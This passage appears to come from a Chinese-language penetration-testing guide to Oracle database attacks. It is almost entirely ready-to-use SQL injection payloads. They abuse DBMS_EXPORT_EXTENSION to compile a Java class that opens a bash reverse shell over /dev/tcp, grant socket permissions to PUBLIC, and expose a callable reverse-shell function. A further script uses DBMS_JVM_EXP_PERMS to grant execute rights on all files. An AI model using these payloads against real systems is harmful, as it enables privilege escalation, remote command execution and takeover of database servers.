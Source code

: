 **1. 创建java代码**

```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell {public static void run() throws Exception{String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/127.0.0.1/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};Process p=Runtime.getRuntime().exec(aaa);}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

**2. 赋予java权限**

```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

**3. 创建函数**

```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual
```

**4. 赋予函数执行权限**

```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on reversetcp to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

**5. 反弹shell**

```
select sys.reversetcp from dual
```



#### 5、sql storage

这个方法其实就是和sh文件一样，把多个语句放到一个sql文件，然后让oracle执行。也就是说我们需要有一个任意文件写入的点位
permission.sql

```sql
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 
'GRANT',USER(),'SYS','java.io.FilePermission',
'<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

